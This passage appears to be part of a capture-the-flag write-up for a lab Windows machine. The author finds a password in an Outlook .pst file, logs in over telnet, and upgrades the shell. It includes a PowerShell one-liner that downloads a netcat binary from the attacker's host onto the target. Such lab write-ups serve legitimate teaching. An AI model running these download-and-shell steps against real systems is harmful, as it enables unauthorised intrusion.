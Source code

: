 
### Viewing Contents of the `.pst` file: {#viewing-contents-of-the-dot-pst-file}

-   **What is a** `.pst`:

> A PST file is a data storage file that contains personal information used by Microsoft Outlook and Exchange. It may also include e-mail folders, contacts, addresses, and other data.

-   So this could hold even more valuable information!

-   **I switch to my Windows VM and download this software so I can view the contents of the** `.pst`:
    -   <https://www.ostpstviewer.com/download.aspx>

-   **Once imported, I find a single email which contains a password for the `security` user:**
    -   {{< figure src="/ox-hugo/2024-09-10-113130_.png" >}}


## 2. Foothold: {#2-dot-foothold}

-   With the new credentials for `security` I login to the telnet server
    -   {{< figure src="/ox-hugo/2024-09-10-114238_.png" >}}

-   It gives me access to the `C:\` drive of the host.
    -   {{< figure src="/ox-hugo/2024-09-10-114342_.png" >}}


### System Info: {#system-info}

-   I can see the system is actually running `Microsoft Windows Server 2008 R2 Standard`
    -   {{< figure src="/ox-hugo/2024-09-10-115018_.png" >}}


### Shell Upgrade: {#shell-upgrade}

-   Initially I try and run powershell but it crashes.
    -   {{< figure src="/ox-hugo/2024-09-10-115727_.png" >}}
-   Telnet is trash, well it's not as we are accessing the host via it, but it's not great to work in. It's slow and doesn't allow us to delete characters. Lets upgrade our shell.

-   **Future bloodstiller here**:
    -   We can actually get a good powershell session from telnet by doing the following:
        -   `powershell -File -`
        -   {{< figure src="/ox-hugo/2024-09-10-173752_.png" >}}
        -   This was not something I was aware of until I had finished the box &amp; read 0xdf's awesome write-up: <https://0xdf.gitlab.io/2019/03/02/htb-access.html> (i like to read other writeups after I have finished mine to see what I could have done differently and find a different perspective &amp; approach)



-   **I start a python server on my attack machine to host my nc.exe binary**:

-   **I execute powershell from CMD &amp; get it to download the `nc.exe` binary**:
    -   `powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.44:9000/shell.exe','C:\Users\Security\shell.exe')"`
        -   {{< figure src="/ox-hugo/2024-09-10-120151_.png" >}}
